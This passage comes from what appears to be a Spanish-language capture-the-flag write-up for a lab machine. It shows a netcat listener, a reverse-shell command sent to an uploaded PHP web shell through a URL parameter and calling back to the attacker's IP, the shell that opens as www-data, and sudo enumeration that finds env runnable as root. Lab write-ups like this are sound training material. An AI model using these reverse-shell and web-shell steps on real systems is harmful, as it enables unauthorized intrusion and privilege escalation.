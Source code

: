 ```python
~/Upload ᐅ nc -lvnp 6969
listening on [any] 6969 ...
```

- **Ejecución**: Al acceder a la URL `http://172.17.0.2/uploads/reverse.php?rev=bash -c "bash -i >%26 /dev/tcp/192.168.1.100/6969 0>%261"`, el archivo `reverse.php` ejecuta el comando enviado a través del parámetro `rev`. Este comando inicia una conexión desde la máquina víctima a la máquina atacante.
```python
listening on [any] 6969 ...
connect to [192.168.1.100] from (UNKNOWN) [172.17.0.2] 41906
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c925d2eea10b:/var/www/html/uploads$
```

- **Resultado**: Una vez ejecutado el comando, la máquina víctima establece una conexión con la máquina atacante, permitiendo al atacante obtener una shell interactiva con el usuario `www-data`.
```python
www-data@c925d2eea10b:/var/www/html/uploads$ whoami
whoami
www-data
```

### **Acceso root**
#### Enumeración de Privilegios Sudo
```python
www-data@c925d2eea10b:/var/www/html/uploads$ sudo -l
 ```

Este comando muestra que el usuario `www-data` tiene permisos para ejecutar `env` con privilegios de superusuario.

**Salida:**

```python
sudo -l
Matching Defaults entries for www-data on c925d2eea10b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on c925d2eea10b:
    (root) NOPASSWD: /usr/bin/env
```

#### Búsqueda de técnicas de escalada de privilegios con <a href="https://github.com/r1vs3c/searchbins">Searchbins</a>

```python
~/Upload ᐅ searchbins -b env -f sudo
```

Searchbins sugiere la técnica que se muestra en la salida para escalar privilegios utilizando `env` cuando se puede ejecutar como superusuario.
